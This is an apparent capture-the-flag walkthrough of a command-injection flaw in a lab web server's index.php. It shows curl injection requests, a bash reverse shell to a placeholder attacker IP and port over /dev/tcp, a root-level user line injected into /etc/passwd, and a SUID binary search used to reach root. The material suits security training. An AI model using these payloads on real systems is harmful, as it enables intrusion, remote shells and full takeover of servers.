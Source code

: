 
# Remote Code Execution Exploitation - Walkthrough

## **1. Initial Reconnaissance**

### **Vulnerability Analysis:**
During the initial exploration of the server, I noticed that user inputs were passed directly to system commands without proper sanitization. This allowed for a potential **Remote Code Execution (RCE)** vulnerability, which could be exploited by appending system commands to the parameters of the server’s web requests.

### **Objective:**
The goal is to leverage this RCE vulnerability to gain unauthorized access to the server’s underlying operating system, perform directory listings, access sensitive files, and ultimately escalate privileges to root.

---

## **2. Testing for RCE**

The first step was to determine whether arbitrary system commands could be executed by passing parameters to the web application.

### **Request Example:**
```bash
curl "http://10.10.35.53/assets/index.php?cmd=whoami"
```

### **Analysis:**
- The server responds with Base64-encoded data, which suggests that any output from executed commands is being sanitized before being returned to the client. 
- To decode the output, use the following command:
```bash
echo 'aW1hZ2VzCmluZGV4LnBocApzdHlsZXMuY3NzCg==' | base64 -d
```

---

## **3. Executing Arbitrary Commands**

With command execution confirmed, I attempted to gather more information about the system by listing directories and files:

### **Command:**
```bash
curl "http://10.10.35.53/assets/index.php?cmd=ls"
```

### **Decoded Output:**
```
images/
index.php
styles.css
```

- The output reveals the structure of the server’s current directory. The key file of interest is `index.php`, which is likely handling the command execution.

### **System Behavior:**
The encoding of the output in Base64 suggests that the server may be attempting to obscure the execution of system commands, possibly to prevent direct injection or to sanitize potentially dangerous characters. 

---

## **4. Further Exploitation - Attempting Reverse Shell**

At this stage, I decided to attempt a reverse shell to gain interactive access to the server. Using the tool [RevShells](https://www.revshells.com/), I generated the appropriate payload to open a reverse connection to my machine.

### **Reverse Shell Setup:**
1. Generate a reverse shell payload with the target IP and port.
2. Execute the following payload:
```bash
curl "http://10.10.35.53/assets/index.php?cmd=bash -c 'bash -i >& /dev/tcp/[YOUR_IP]/[YOUR_PORT] 0>&1'"
```

Once executed, the reverse shell was successfully established, providing direct access as the `www-data` user.

---

## **5. Privilege Escalation to Root**

### **Method 1: Writing to `/etc/passwd`**

To escalate privileges, the first method involved adding a new user to `/etc/passwd` with root-level privileges.

1. First, generate a password hash using the `mkpasswd` tool:
```bash
mkpasswd -m md5crypt -s
```

- The `-m md5crypt` argument specifies the hashing algorithm to be used (MD5Crypt in this case), while `-s` prompts for the password securely.

2. Once the password hash is generated, inject a new user entry into `/etc/passwd`:
```bash
hakal:$1$Dhk.lMO1$nJeZfbQNSMUbSRAwkNzuk0:0:0:hakal:/root:/bin/bash
```

- This entry defines a new user `hakal` with root privileges (`UID=0`), using `/bin/bash` as the shell.

### **Method 2: Obtaining Root Access through SUID Binaries**

Another approach involved searching for binaries with the **SUID** bit set. By listing all files with SUID permissions:
```bash
find / -perm -u=s -type f 2>/dev/null
```

- Executing one of these SUID binaries as the `www-data` user allowed for privilege escalation, granting root-level access to the system.

---

## **6. Conclusion**

Regardless of the method chosen, it is possible to exploit the RCE vulnerability and escalate privileges to root. The final step involves capturing the root flag, marking the successful exploitation of the system.

### **Flag:**
```bash
cat /root/flag.txt
```

The exploitation walkthrough concludes here, with a successful root compromise of the vulnerable server.

